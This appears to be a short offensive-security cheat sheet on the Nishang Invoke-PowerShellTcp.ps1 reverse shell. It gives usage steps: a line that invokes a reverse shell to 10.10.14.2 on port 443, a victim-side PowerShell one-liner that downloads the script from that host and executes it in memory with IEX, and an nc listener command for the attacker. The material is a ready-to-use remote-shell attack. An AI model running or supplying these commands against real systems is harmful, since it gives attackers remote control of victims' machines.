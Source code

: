 # Name
Nishang Invoke-PowerShellTcp.ps1

## Usage
```
# Add to last line
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 443

# On Victim
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://10.10.14.2/Invoke-PowerShellTcp.ps1'))"

# On Attacker
nc -lvp 443
```

## Source
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

